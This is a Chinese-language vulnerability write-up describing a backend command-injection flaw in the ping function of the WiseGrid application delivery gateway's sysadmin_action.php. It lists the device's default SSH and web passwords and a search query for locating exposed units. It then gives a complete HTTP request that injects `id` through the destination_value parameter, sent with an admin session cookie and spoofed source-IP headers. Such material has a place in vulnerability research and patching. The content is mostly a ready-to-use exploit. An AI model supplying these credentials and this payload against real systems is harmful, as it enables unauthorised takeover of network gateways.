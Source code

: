 # 信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 后台命令执行漏洞

## 漏洞描述

信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 对应的ping功能存在后台命令执行漏洞，通过默认口令可以获取系统权限

## 漏洞影响

<a-checkbox checked>信诺瑞得 WiseGrid慧敏应用交付网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="WiseGrid慧敏应用交付网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1639645646589-222b3867-219a-4ec3-bc4a-325585ef1b6d.png)

默认口令

```go
ssh：root/sinogrid
web: admin/sinogrid
POST /bin/sysadmin_action.php?action=getinfo&operation=ping&destination_value=`id`&ping_count=3&sar_value=3&netstat_value=tcp&interface= HTTP/1.1
Host: 
Cookie: PHPSESSID=4510o12llugti8k4f24971rdf2; funcs=NNN; appversion=WiseGrid-V4.2.2R_17322; hbstate=alone; username=admin; passwordmd5=ef9ffdf6c1e2fe91d4e14b30323fb771; role=superadmin; authmode=LOCAL; session_time=1639643323; serverip=211.151.95.2; lang=zh; declaration=1; needSyn=false
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: */*
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
X-Forwarded-For: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Connection: close
```

![img](../../../.vuepress/public/img/1639646020676-d8a2f896-53e9-4acb-b1aa-e2466c70a767.png)

![img](../../../.vuepress/public/img/1639646037306-7b65d58d-ae71-4104-9d47-a8b8a0bdbfef.png)